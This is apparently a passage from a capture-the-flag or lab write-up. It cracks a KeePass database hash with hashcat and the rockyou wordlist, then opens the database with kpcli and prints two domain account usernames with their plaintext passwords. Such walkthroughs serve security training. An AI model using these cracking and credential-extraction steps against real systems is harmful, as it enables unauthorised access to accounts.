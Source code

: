 I loaded the hash without "database:" part for hashcat

```
hashcat -m 13400 hash.txt rockyou.txt
```

Cracked password is `backstreetboys`

Let's explore the database using `kpcli`

```
kpcli --kdb database.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
Database/
kpcli:/> ls Database/
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. Backup domain account                                                  
1. Domain account                                                         
```

We have two entries with some accounts

```
kpcli:/> show 0

Title: Backup domain account
Uname: SECDOJO\backup
 Pass: NPs1yLXH$
  URL: 
Notes: 

kpcli:/> show 1

Title: Domain account
Uname: SECDOJO\tsilva
 Pass: 8JPmoXL!ds
  URL: 
Notes: 
```
